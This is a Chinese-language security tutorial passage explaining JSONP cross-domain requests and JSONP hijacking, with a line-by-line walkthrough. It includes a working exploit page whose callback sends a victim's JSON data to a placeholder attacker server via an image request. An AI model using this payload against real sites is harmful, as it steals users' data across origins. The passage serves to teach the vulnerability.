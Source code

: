 ## （2）JSONP

JSONP是JSON with padding (填充式JSON或参数式JSON)，是一种为了跨域获取资源而产生的一种技术手段。这是一种非官方的协议。  
**JSONP实现跨域的原理**：  
同源策略限制了不同源的站点通过ajax获取信息，但是web页面调用is文件则不受跨域的影响并且凡是拥有src属性的标签都可以跨域请求，如scriptimg等标签。JSONP正是利用这种原理去实现了跨域请求。  
JSONP劫持从JSONP的原理中可以看出这种方式实现了数据的跨域访问，如果网站B对网站A的JSONP请求没有进行安全检查直接返回数据，则网站B 便存在JSONP漏洞，网站A利用JSONP漏洞能够获取用户在网站B上的数据。  
这种漏洞与CSRF非常相似，只不过CSRF只是发送数据去达到一定的目的，而JSONP劫持是为了获取返回的敏感数据

```plain
// jsonp 演示页面
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>JSONP EXP跨域测试</title>
</head>
<body>
<script>
function test(json){
new Image().src="http://蜜罐服务器IP:10002/" + JSON.stringify(json) // 攻击机准备接收的地址和端口
//alert(JSON.stringify(json))
}
</script>
<script src="有jsonp漏洞的网站url callback=test"></script> 
</body>
</html>
```

下面是对代码的逐行解释：

-   <!DOCTYPE html>：声明这是一个HTML5文档。
-   `<html lang="en">`：定义HTML文档，并设置文档的根语言为英文。
-   `<head>`：定义文档的头部信息，这些信息不会直接显示给用户。
-   <meta charset="UTF-8">：设置文档的字符集为UTF-8。
-   <title>JSONP EXP跨域测试</title>：设置文档的标题。
-   </head>：结束文档头部。
-   `<body>`：定义文档的主体部分，即用户可以在浏览器中看到的内容。
-   `<script>`：定义一个JavaScript脚本块。
-   function test(json){：定义一个名为test的函数，该函数接收一个名为json的参数。
-   new Image().src="[http://蜜罐服务器IP:10002/](http://xn--ip-fr5c86lx7zzi7agol:10002/)" + JSON.stringify(json)：创建一个新的Image对象，并设置其源为一个URL，该URL由蜜罐服务器的IP地址和端口号以及经过JSON.stringify方法处理后的json参数组成。这样做的目的是将获取的数据发送到蜜罐服务器。注意：这段代码将数据公开发送，这在实际环境中是非常危险的，因为它可能导致敏感信息的泄露。
-   alert(JSON.stringify(json))：这是一个弹出框，用于显示从存在JSONP漏洞的网站获取的数据。这里使用JSON.stringify(json)将数据转换为字符串形式以在弹出框中显示。
-   }：结束test函数。
-   `<script src="有jsonp漏洞的网站url callback=test"></script>`：通过`<script>`标签引入一个外部JavaScript文件。这个文件应该来自一个存在JSONP漏洞的网站，其中的callback参数指定了处理从该网站返回的数据的函数（在这里是test函数）。这意味着当该外部脚本加载时，它会调用test函数，并将从该网站获取的数据作为参数传递给它。
-   `</body>`：结束文档主体。
-   `</html>`：结束HTML文档。
